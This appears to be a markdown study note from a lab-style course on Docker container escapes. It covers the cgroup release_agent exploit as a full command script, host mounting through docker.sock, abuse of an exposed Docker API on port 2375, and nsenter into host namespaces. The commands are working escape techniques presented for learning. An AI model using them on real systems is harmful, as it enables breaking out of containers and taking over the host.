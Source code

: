 # Some docker vulnerabilities

### 1. Capabilities

Understanding Capabilities:

    Linux Capabilities: Root permissions assigned to processes or executables for granular privilege assignment.
    Docker Container Modes:
        User (Normal) mode
        Privileged mode
    Access Levels:
        User mode containers interact through the Docker Engine.
        Privileged mode containers bypass the Docker Engine, directly accessing the OS.
    Privileged Container Execution: Allows commands to be executed as root on the host.
    Listing Capabilities: Use capsh --print to list container capabilities.
    Example Capabilities: cap_chown, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid, cap_setuid.

Example Exploit Using Mount Syscall:

    Mount cgroups: Create a directory and mount cgroups.
    Notify Kernel: Set up the kernel to execute upon cgroup release.
    Find Host Path: Retrieve and store the host path.
    Set Release Agent: Configure the release agent to point to the exploit.
    Create Exploit Script: Write commands into the exploit file.
    Command Execution: Ensure the exploit executes the desired command.
    Make Exploit Executable: Grant execute permissions to the exploit.
    Process Execution: Create a process in the cgroup to trigger the exploit.

Vulnerability Explanation:

    Create and Mount cgroup: Use cgroups to manage processes and mount them in the container.
    Notify Kernel on Release: Set kernel to execute code upon cgroup release.
    Retrieve Container Path: Find where container files are stored on the host.
    Configure Release Agent: Direct the release agent to the exploit.
    Create Shell Exploit: Turn the exploit into a shell on the host.
    Echo Host Flag: Execute a command to copy the host flag to the container.
    Set Executable Permissions: Make the exploit file executable.
    Trigger Process Execution: Store a process in cgroup to trigger exploit execution.

Sample Exploit [Reference](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.): 
```
1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

2. echo 1 > /tmp/cgrp/x/notify_on_release

3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

4. echo "$host_path/exploit" > /tmp/cgrp/release_agent

5. echo '#!/bin/sh' > /exploit

6. echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit

7. chmod a+x /exploit

8. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### 2. Unix Socket to escape container
Unix Sockets 101:

    Concept: Similar to network sockets, used for Inter-process Communication (IPC) via filesystem.
    Performance: Unix sockets are faster than TCP/IP sockets, beneficial for databases like Redis.
    Permissions: Unix sockets use file system permissions.

Docker's Use of Sockets:

    Interaction: Docker commands (e.g., docker run) use a Unix socket.
    Permissions: Users must be part of the Docker group or root to run Docker commands.
    Verification: Use groups command to check Docker group membership.

Docker Socket in a Container:

    Access: Containers use the Docker Engine and have access to the Docker socket (docker.sock).
    Location: Typically found in /var/run (location can vary).

Exploiting Docker Socket:

    Confirm Permissions: Need root or Docker group permissions.
    Vulnerability: Create a new container and mount the host's filesystem into it.
    Command Breakdown:
        Upload Docker Image: Use a lightweight image like "alpine".
        Run Container: Mount host filesystem to /mnt in the new container: docker run -v /:/mnt.
        Interactive Mode: Use -it to run interactively.
        Image Selection: Use "alpine" image.
        Change Root Directory: Use chroot to set /mnt as the root: chroot /mnt.
        Shell Access: Run sh to gain a shell and execute commands.

Verification of Exploit:

    Success Check: After running the command, check if the host filesystem is mounted in the new container by listing contents of /.

### 3. Exposed REST API
The Docker Engine - TCP Sockets Edition:

    Communication: Docker can use TCP sockets for remote administration.
    Automation: Tools like Portainer or Jenkins can deploy containers remotely.

Vulnerability:

    Remote Accessibility: Docker Engine can listen on a port (default 2375) for remote access.
    Security Risk: Remotely accessible Docker Engine allows anyone to execute commands.

Enumeration:

    Nmap Scan: Check if the Docker Engine is accessible on port 2375.
    Example Scan: nmap -sV -p 2375 10.10.80.195

Interacting with Exposed Docker Daemon:

    Using curl: Verify access with curl http://10.10.80.195:2375/version
    Example Output: Details about Docker Engine and its components.

Executing Docker Commands on Target:

    Remote Command Execution: Use -H switch to direct commands to the target.
    Example Command: List containers with docker -H tcp://10.10.80.195:2375 ps

Next Steps:

    Possible Actions:
        Start, stop, or delete containers.
        Export container contents for analysis.
    Useful Commands:
        network ls: List container networks.
        images: List images used by containers.
        exec: Execute a command on a container.
        run: Run a container.

### 4. Abusing Namespace
Namespaces Overview:

    Definition: Segregate system resources like processes, files, and memory.
    Assignment: Each Linux process has a namespace and a Process Identifier (PID).
    Containerization: Achieved through namespaces; processes in different namespaces cannot see each other.

Example: Comparing Processes:

    Host System: Multiple processes running, e.g., Firefox and Gnome terminal.
    Container: Fewer processes, typically designed for a single task.
    Process Listing: Shows different numbers of processes on host and container, with PID 1 indicating the first process in the container.

Abusing Namespaces:

    cgroups: Previous vulnerabilities exploited using control groups.
    Host Interaction: Some containers share namespaces with the host for processes like debugging tools.

Exploit Using nsenter:

    Command: nsenter --target 1 --mount --uts --ipc --net /bin/bash
        This command allows us to execute or start processes, and place them within the same namespace as another process. In this case, we will be abusing the fact that the container can see the "/sbin/init" process on the host
        --target 1: Execute in the namespace of process ID 1 (init).
        --mount: Enter the mount namespace of the target process.
        --uts: Share the same UTS namespace (hostname).
        --ipc: Enter the Inter-process Communication namespace.
        --net: Enter the network namespace to interact with network features.
        Execute Shell: Run a shell in the privileged namespace of the kernel.

Proof of Concept:

    Execution: Running nsenter command in the container allows access to the host.
    Verification: Successfully changing hostname to the host's name shows access to the host system.

